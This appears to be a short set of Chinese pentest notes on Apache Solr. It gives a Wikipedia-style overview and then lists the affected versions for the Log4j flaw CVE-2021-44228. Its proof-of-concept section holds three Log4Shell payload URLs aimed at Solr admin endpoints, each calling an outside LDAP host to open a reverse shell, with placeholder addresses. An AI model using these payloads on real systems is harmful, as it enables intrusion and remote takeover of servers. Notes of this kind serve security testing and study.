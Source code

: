 ## 简介

**Solr**（读作“solar”）是[Apache Lucene](https://zh.wikipedia.org/wiki/Lucene)项目的[开源](https://zh.wikipedia.org/wiki/开源)[企业搜索](https://zh.wikipedia.org/w/index.php?title=企业搜索&action=edit&redlink=1)平台。其主要功能包括[全文检索](https://zh.wikipedia.org/wiki/全文檢索)、命中标示[[2\]](https://zh.wikipedia.org/wiki/Solr#cite_note-2)、[分面搜索](https://zh.wikipedia.org/w/index.php?title=分面搜索&action=edit&redlink=1)、动态聚类、数据库集成，以及富文本（如[Word](https://zh.wikipedia.org/wiki/Word)、[PDF](https://zh.wikipedia.org/wiki/PDF)）的处理。Solr是高度可扩展的，并提供了分布式搜索和索引复制。Solr是最流行的企业级搜索引擎，[[3\]](https://zh.wikipedia.org/wiki/Solr#cite_note-3)Solr 4还增加了[NoSQL](https://zh.wikipedia.org/wiki/NoSQL)支持。

## 一些漏洞

[solr](F:\vulhub\solr)

### log4j

https://solr.apache.org/security.html#apache-solr-affected-by-apache-log4j-cve-2021-44228

使用版本：7.4.0 to 7.7.3, 8.0.0 to 8.11.0

POC

```
/solr/admin/collections?action=${jndi:ldap://xxx/Basic/ReverseShell/ip/9999}&wt=json
/solr/admin/info?d=${jndi:ldap://xxx/Basic/ReverseShell/ip/9999}
/solr/admin/cores?action=${jndi:ldap://xxx/Basic/ReverseShell/ip/9999}
```

